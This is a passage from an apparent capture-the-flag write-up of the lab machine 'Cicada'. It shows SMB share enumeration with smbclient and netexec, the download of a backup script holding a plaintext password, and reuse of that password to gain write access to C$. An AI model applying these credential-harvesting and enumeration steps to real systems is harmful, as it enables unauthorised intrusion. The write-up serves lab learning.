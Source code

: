 ```bash
SMB         10.129.227.95   445    CICADA-DC        SYSVOL          READ            Logon server share 

#accessing the DEV share
smbclient //cicada/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 07:31:39 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 12:28:22 2024

		4168447 blocks of size 4096. 435826 blocks available

#downloading the file
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (16.3 KiloBytes/sec) (average 16.3 KiloBytes/sec)
smb: \> 
```

In this backup script I found yet another set of credentials
```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

credentials:
`emily.oscars` / `Q!3@Lp#M6b*7t*Vt`

## SMB Enumeration with new credentials
By now you know the drill huh? I check the smb share access again with this new set of credentials but this time I see something interesting
```bash
netexec smb cicada -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' --shares
SMB         10.129.227.95   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.95   445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 
SMB         10.129.227.95   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.227.95   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.227.95   445    CICADA-DC        -----           -----------     ------
SMB         10.129.227.95   445    CICADA-DC        ADMIN$          READ            Remote Admin
SMB         10.129.227.95   445    CICADA-DC        C$              READ,WRITE      Default share
SMB         10.129.227.95   445    CICADA-DC        DEV                             
SMB         10.129.227.95   445    CICADA-DC        HR              READ            
SMB         10.129.227.95   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.227.95   445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.227.95   445    CICADA-DC        SYSVOL          READ            Logon server share 
```
